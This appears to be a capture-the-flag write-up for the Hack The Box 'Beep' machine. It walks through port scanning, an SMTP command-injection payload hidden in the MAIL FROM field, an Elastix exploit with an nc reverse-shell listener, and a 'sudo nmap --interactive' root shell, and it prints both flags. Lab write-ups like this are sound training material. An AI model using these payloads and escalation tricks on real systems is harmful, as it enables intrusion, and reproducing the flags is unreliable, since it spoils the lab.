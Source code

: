 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Beep write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/Beep.png"></p>


# Recon
The researcher started out with a scan of the host (10.10.10.3) using naabu<sup>1</sup>
```naabu -host 10.10.10.7 -p - -c 500 -nmap-cli 'nmap -sV -sC -n -Pn -oN active-hosts' -o naabu.txt```

|Status|IP|Port| Status | IP | Port |
| -----|--|----------- | --- | -- | ---| 
| open | 10.10.10.7 | 22 | open | 10.10.10.7 | 993 |
| open | 10.10.10.7 | 25 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 80 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 110 | open | 10.10.10.7 | 3306 |
| open | 10.10.10.7 | 111 | open | 10.10.10.7 | 4190 |
| open | 10.10.10.7 | 143 | open | 10.10.10.7 | 4445 |
| open | 10.10.10.7 | 443 | open | 10.10.10.7 | 4559 |
| open | 10.10.10.7 | 878 | open | 10.10.10.7 | 5030 |
| open | 10.10.10.7 | 10000 |
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/beep%20(2).jpg"></p>

# User enum
<details>
    <summary>PORT 22 OpenSSH 4.3</summary>
    <p>Moving on from this one until creds are found.</p>
 </details>
 <details>
    <summary>PORT 25 Postfix smtpd</summary>
    <p> 
    smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
    Attempted to find the ver of the service but I was not able to.
    Then tried a quick manual test to see if RCE was possible. 

```
HELO x 
MAIL FROM:<;ping -c 4 192.168.49.161;> 
RCPT TO:<root> 
DATA 
<enter> 
vry4n 
. 
QUIT

```
This did not work. 
</p>
</details>
<details>
    <summary>PORT 80 http</summary>
    <p>Port 80 redirects to 443.</p>
 </details>
 <details>
    <summary>PORT 443 https</summary>
    <p>Going to https://10.10.10.7 I found a elastix sign in page.
    I tried some defult creds root:root, admin:admin, and elastix: elastix and all failed.
    Next I used google search and found an exploit 18650.py<sup>2</sup> 
    After updating the RHOST, LHOST, AND PORT I started a nc listener.
    
```
    nc -nlvp 4444
``` 
and ran the script, 
```
python2.7 18650.py 
```
but failed to get a call back. 
after some research I found a suite of VoIP tools that could be used to find an open extention since ext 1000 was not working. 
I downloaded sipvicious<sup>3</sup>. From the sipvicious wiki<sup>4</sup> I was able to find the proper commend 

```
./svwar -m INVITE 10.0.0.1
```
The command returned an open ext 233(https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/beep%20(1).jpg).  I again updated my 18650.py with the new ext (https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/beep%20(4).jpg) and ran it again, this time I did get a call back.
Looking at the exploit there was a way to upgrade to admin right away. The user needed to run

```
sudo nmap --interactive

```
then 

```
 !sh 
```
Since I was root I went a head and got both flags(https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Beep/beep%20(3).jpg). 
USER FLAG:5be8f535cdf2b007b64885bf766db5d6
ROOT FLAG:a874a4316d949910a7fe32ca0da02907
 </p>
 </details>

 <p>No other ports were needed.</p>
 



REF
1. https://github.com/projectdiscovery/naabu
2. https://www.exploit-db.com/exploits/18650
3. https://www.kali.org/tools/sipvicious/
4. https://github.com/EnableSecurity/sipvicious/wiki/SVWar-Usage

